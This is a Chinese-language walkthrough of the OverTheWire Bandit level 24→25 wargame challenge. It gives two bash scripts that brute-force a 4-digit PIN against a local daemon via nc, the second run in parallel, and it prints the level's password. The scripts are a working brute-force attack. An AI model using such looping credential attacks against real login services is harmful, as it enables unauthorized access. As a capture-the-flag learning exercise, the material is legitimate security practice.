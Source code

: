 Bandit Level 24 → Level 25

```
Level Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinaties, called brute-forcing.

```

这是比较有意思的一关，写一个脚本进行穷举,于是我一开始写了一下这个：

```
pass=UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
for i in $(seq 0 9999)
do
if
    echo $pass $i| nc localhost 30002 | grep Wrong>/dev/null
then
    echo $i
else

    echo $pass $i| nc localhost 30002 > result
    break
fi
done

```

运行这个脚本，然后你就可以去打几把DOTA了，反正我是挂了一晚上。。。。。 这样当然不行啊，所以就有了后来的改进版本：

```
pass=UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
for i in $(seq 0 9999)
do {
if
    echo $pass $i| nc localhost 30002 | grep Wrong > /dev/null
then
    echo $i
else

    echo $pass $i| nc localhost 30002 > result
    exit
fi
}&
done
wait

```

这里用了&和wait实现了伪多线程。&表示可以并行执行，wait表示父进程等待子进程执行完毕。 这样果然快多了 ，只用了几分钟就搞定了。

然而这个脚本并不能在找到正确的密码的时候停止，这个就作为思考题吧。

Level 25 → Level 26
=====
